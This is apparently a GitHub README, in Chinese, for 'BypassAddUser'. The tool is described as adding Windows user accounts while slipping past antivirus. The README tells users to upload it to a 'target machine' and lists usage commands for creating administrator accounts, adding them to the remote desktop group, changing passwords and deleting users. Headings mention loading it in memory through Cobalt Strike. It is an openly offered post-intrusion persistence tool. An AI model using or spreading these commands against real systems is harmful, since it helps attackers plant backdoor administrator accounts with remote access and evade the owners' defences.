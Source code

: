 # BypassAddUser
绕过杀软添加用户

## 感谢 AnonySec 大佬的宝贵建议

已测Win2008,Win2012,Win10都没问题

**注意密码复杂性！！！**

**注意密码复杂性！！！**

**注意密码复杂性！！！**

### 2020.12.12 更新：重构代码，加入添加rdp组功能

上传到目标机器注意目标机器存在的`.net`版本，win2008推荐3.5版本，win2012推荐4.0版本

```
Usage: BypassAddUser.exe -u username -p password -g groups    添加用户
       BypassAddUser.exe -u username -p password -g groups -rdp    添加用户，并添加到rdp组
       BypassAddUser.exe -c UserName NewPassword    更改用户密码
       BypassAddUser.exe -d UserName    删除用户
Example: BypassAddUser.exe -u test -p testpass -g administrators
         BypassAddUser.exe -u test -p testpass -g administrators -rdp
         BypassAddUser.exe -c test NewtestPass
         BypassAddUser.exe -d test
```

### 添加用户，并加入rdp组
![images](https://github.com/TryA9ain/BypassAddUser_new/blob/master/Snipaste_2020-12-12_12-32-57.jpg)

### cs内存加载
![images](https://github.com/TryA9ain/BypassAddUser_new/blob/master/Snipaste_2020-12-12_12-43-26.jpg)

![images](https://github.com/TryA9ain/BypassAddUser_new/blob/master/Snipaste_2020-12-12_12-43-40.jpg)

![images](https://github.com/TryA9ain/BypassAddUser_new/blob/master/Snipaste_2020-12-12_12-43-48.jpg)
